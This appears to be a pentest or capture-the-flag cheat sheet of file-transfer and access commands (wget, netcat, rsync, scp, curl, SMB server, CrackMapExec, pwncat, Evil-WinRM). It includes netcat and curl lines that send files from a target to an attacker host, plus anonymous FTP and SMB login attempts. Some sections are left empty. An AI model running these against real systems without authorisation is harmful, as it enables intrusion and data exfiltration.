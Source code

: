 ### WGET

Mirror an HTTP server with arbitrary files
```
wget --recursive --no-parent http://${box_ip}/
```

Mirror an FTP server
```
wget -m --user=username --password=password ftp://${box_ip}
```

Mirros and SMB Server
```
```

### Anon Logins


FTP

```
ftp ${box_ip} 21
```

SMB (linux)
```
smbclient //${box_ip}/share -U " "%" "

smbclient //${box_host}/share -U " "%" "
```


### Netcat

On attacker server:
```bash
nc -l -p 1234 -q 1 > FILENAME < /dev/null
```

On target server:

```bash
cat FILENAME | netcat ${box_ip} 1234
```

### rsync

```bash
rsync -a /home/user/Downloads/file.txt root@5.182.18.49:/home/Files
rsync -avz /opt/lulz USER@${box_ip}:/dev/shm/
```

### SCP

```
scp -r ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r REMOTE_USER@${box_ip}:dir/file.txt ./file.txt

scp -r -i id_rsa ./file.txt REMOTE_USER@${box_ip}:dir/file.txt
scp -r -i id_rsa REMOTE_USER@${box_ip}:dir/file.txt ./file.txt
```

### Curl

```bash
curl http://${box_ip}/FILENAME -o FILENAME

curl -u USERNAME:PASSWORD http://${box_ip} -o FILENAME

curl ftp://${box_ip}/FILENAME -user USERNAME:PASSWORD -o FILENAME

curl -T FILENAME ${box_ip} -user USERNAME:PASSWORD

curl -F ‘data=@path/to/local/file’ ${box_ip}

curl -F 'img_avatar=@/home/file.txt' http://${box_ip}/upload

curl -F 'fileX=@/path/to/fileX' -F 'fileY=@/path/to/fileY' ... http://${box_ip}/upload

curl -F 'files[]=@/path/to/fileX' -F 'files[]=@/path/to/fileY' ... http://${box_ip}/upload
```

### Chisel

[get chisel here](https://github.com/jpillora/chisel/)
```
```

### SMB server

```bash
sudo python3 ${imp_dir}/smbserver.py -smb2support -username <SHARE_USER> -password <SHARE_PASS> -ip $attack_ip <SHARE_NAME> <SHARE_PATH>
```


### Crackmapexec

```bash
docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme byt3bl33d3r/crackmapexec
```

### PWNCat
```bash
docker run -v "./":/work -t pwncat ${box_ip} LPORT
```

### EvilWinRM

```bash
export scripts_dir='/opt/server/ps_scripts/'; export exe_dir='/opt/server/exe/'; docker run --rm -ti --name evil-winrm -v ${scripts_dir}:/ps1_scripts -v ${exe_dir}:/exe_files -v ${pwd}:/data oscarakaelvis/evil-winrm
```
